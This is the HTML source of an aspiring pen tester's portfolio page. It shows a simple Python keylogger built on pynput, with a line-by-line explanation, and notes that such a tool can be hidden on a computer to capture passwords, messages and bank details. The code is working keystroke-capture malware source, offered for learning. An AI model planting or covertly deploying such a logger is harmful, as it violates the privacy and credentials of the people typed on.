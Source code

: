  <html>
  <head>
     <link rel="stylesheet" href="index.css">
  </head>
   <body>
    <Header id="section-Expo"> 
      <img class="img_Me" src="images/8626f4a9-f60a-4198-b2f0-02b9067687d1.jpeg" width="300"/>
     <div class="Expo-MeDiv">
      <p class="Expo_Me" >Hello, I am a young inspiring pen tester that wants to make a spot in industry, every since I gotten the idea of ethical hacking i've been try to learn and gain experience of looking and exporting vulnerabilities online, this portfolio will show what experience and skills I learned over the time in the internet, from trustrd websites that teaches you how to use kali Linux for pen testimg websites and files, to my cyber security class that teches me the basics of the subjet, to on hand experience of what I learned and trying to find vulnerabilities all over in the web, I will show my skills to anyone reading this page to prevail my career. </p>
     </div>
    </Header>

<div class="Projets_section">
   <h1 class="Projets_title">---Projets---</h1>
</div>

<div class="Projets_name">
 <h2>KeyLogger</h2>
 <h2>Made and Updated by: 3/18/2025--3/24/2025</h2>
</div>

<div class="Projets_imgAndDet">
 <div class="Code_keylog">
  <img src="images/keylogger-768x403.png" width="450" height="450" />
   <pre width="450" height="300">
    <code width="450" height="300"> 
   from pynput import keyboard
     
def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
        if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
            
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
   
  </code>
 </pre>
</div>

 <details>
  <h3>Technical Details</h3>
  <ul style="list-style-type:square">
   <li><strong>Programming Language:</strong>Python</li>
   <li><strong>Frameworks/Libraries:</strong>Pynput</li>
   <li><strong>Key Features:</strong>
    <ul style="list-style-type:square">
     <li>Cross-platform support (Windows, macOS, Linux)</li>
     <li>Simple API for listening to keyboard events</li>
     <li>Ability to simulate keyboard input</li>
    </ul>
   </li>
  </ul>
 </details>
</div>

<div class="Projets_Expo">
 <p>Before I start, I obtained this Keylogger from a YouTube tutorial, As a beginner, I try to learn from resources that are readily available to me. That way, I can understand how things work on my own without constantly needing to seek help. So I have added 2 new modifications to impove on less confusion in the log, but too the point. 
  <br>
  <br>
  This is a basic Keylogger that records keystrokes that have been pressed, this can be used of course to be hidden into a computer and log any sensitive information that was typed on said computer, like emails with passwords, private text messages, Bank info, and more. Here I will break down my simple code.</p>
</div>

<br>
<br>

<div class="code_display_A" width=150>
 <pre class="code">
  <code>
  def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
  </code>
 </pre>

<p class="code_Expo">Here is the start of the function where I set the parameter as <span class="word_code">Key</span>, then in the next line it take any key pressed to a string so it can be printed in the text file that is existing (or made its self if theres no text file with that same name) then adds a append tool here <span class="word_code">'a'</span> so any keystrokes will be added im the file, and it will used as <span class="word_code">logKey</span>.</p>
</div>

<br>

<div class="code_display_A" width=150>
 <p class="code_Expo">Now the <span class="word_code">'Try'</span> is used to handle exceptions that occur when getting a character representation of a key by using <span class="word_code">'key.char'</span>, except for special key, if it's is one it will not be added in the txt file and will give an error "Error getting char". </p>

 <pre class="code">
  <code>
    try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
  </code>
 </pre>
</div>

<br>

<div class="code_display_A" width=150>
  <pre class="code">
   <code>
    if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
   </code>
  </pre>

 <p class="code_Expo"> Now these last two blocks I personal added so theres less confusion on the txt file, because without them the letters will be jumbled up. 
  <br>
  <br>
  so both <span class="word_code">'if'</span> and <span class="word_code">elif</span> statements are used just in case the ENTER or SPACE key was pressed, it will still display the error line in the console log but will still skip a line or make space once pressed in the txt file.</p>
 </div>
  </body>
 </html>
